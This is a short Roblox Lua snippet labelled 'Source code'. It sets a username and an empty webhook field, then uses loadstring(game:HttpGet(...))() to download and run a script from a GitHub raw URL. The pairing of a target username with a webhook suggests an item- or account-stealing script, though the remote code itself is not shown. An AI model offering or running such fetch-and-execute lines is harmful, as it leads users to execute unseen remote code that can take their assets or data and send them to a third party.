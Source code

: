 Username = "PogrzaloCie"
Webhook = ""

loadstring(game:HttpGet("https://raw.githubusercontent.com/doslobodydoedy/x/main/main.lua"))()


